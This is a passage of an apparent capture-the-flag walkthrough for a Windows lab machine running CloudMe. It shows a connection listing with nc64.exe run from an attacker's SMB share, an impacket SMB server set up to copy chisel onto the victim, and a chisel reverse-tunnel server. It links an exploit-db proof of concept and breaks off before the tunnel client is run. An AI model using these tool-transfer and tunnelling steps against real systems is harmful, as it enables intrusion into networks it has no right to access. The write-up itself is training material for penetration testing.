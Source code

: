 ```console
  TCP        10.129.2.18           139           0.0.0.0               0               Listening         4               System
  TCP        10.129.2.18           8080          10.10.16.16           42504           Close Wait        8596            C:\xampp\apache\bin\httpd.exe
  TCP        10.129.2.18           8080          10.10.16.16           55280           Established       8596            C:\xampp\apache\bin\httpd.exe
  TCP        10.129.2.18           49847         10.10.16.16           445             Established       4               System
  TCP        10.129.2.18           49848         10.10.16.16           1235            Established       6832            \\10.10.16.16\rogue\nc64.exe
  TCP        127.0.0.1             3306          0.0.0.0               0               Listening         8628            C:\xampp\mysql\bin\mysqld.exe
  TCP        127.0.0.1             8888          0.0.0.0               0               Listening         4280            CloudMe
```
This PoC should do the job pretty quickly but we will need to modify the script a little to actually exploit it.

Note: With how old this machine is I am pretty sure this part should be harder with crafting and finding the Buffer Overflow yourself but luckily someone has made a PoC for us.

https://www.exploit-db.com/exploits/48389

1st we are going to transfer chisel to the victim machine so we can access here localhost on our host machine.

```console
└─$ sudo impacket-smbserver rogue . -smb2support
[sudo] password for npayne: 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
```console
c:\Users\Public>copy \\10.10.16.16\rogue\chiselwin.exe chiselwin.exe
copy \\10.10.16.16\rogue\chiselwin.exe chiselwin.exe
        1 file(s) copied.
```

Next set up chisel listener on your host.

```console
└─$ chisel server --reverse --port 1234
2022/10/18 14:18:24 server: Reverse tunnelling enabled
2022/10/18 14:18:24 server: Fingerprint RZQ9LOlLjBYeVcnA6fq7Fi90YADFsXsI+giE5JxJZp8=
2022/10/18 14:18:24 server: Listening on http://0.0.0.0:1234
2022/10/18 14:18:49 server: session#1: Client version (1.7.7) differs from server version (0.0.0-src)
2022/10/18 14:18:49 server: session#1: tun: proxy#R:8888=>8888: Listening
```
Then run chisel on the victim to connect.
